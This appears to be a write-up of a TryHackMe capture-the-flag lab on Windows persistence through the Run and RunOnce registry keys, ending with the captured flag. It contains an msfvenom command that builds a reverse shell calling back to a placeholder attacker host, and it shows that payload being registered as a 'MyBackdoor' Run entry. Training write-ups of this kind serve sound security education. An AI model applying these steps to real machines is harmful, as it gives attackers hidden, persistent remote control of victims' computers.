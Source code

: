## Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under`HKCU` will only apply to the current user, and those under`HKLM` will apply to everyone. Any program specified under the`Run` keys will run every time the user logs on. Programs specified under the`RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to`C:\Windows\`:

```shell-session
C:\> move revshell.exe C:\Windows
```

Let's then create a`REG_EXPAND_SZ` registry entry under`HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

**Note:** While in a real-world set-up you could use any name for your registry entry, for this task you are required to use`MyBackdoor` to receive the flag.

![backdoored Run entry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c99038cd6cc9e37512edabb1f873a4da.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute`C:\flags\flag11.exe` to get a flag!

Once we follow all steps, we will receive our shell, we need to strictly name the registry `MyBackdoor` for us to be able to read the flag:

![Pasted image 20250516113038.png](../../../IMAGES/Pasted%20image%2020250516113038.png)

```
C:\flags>.\flag11.exe
THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}
```
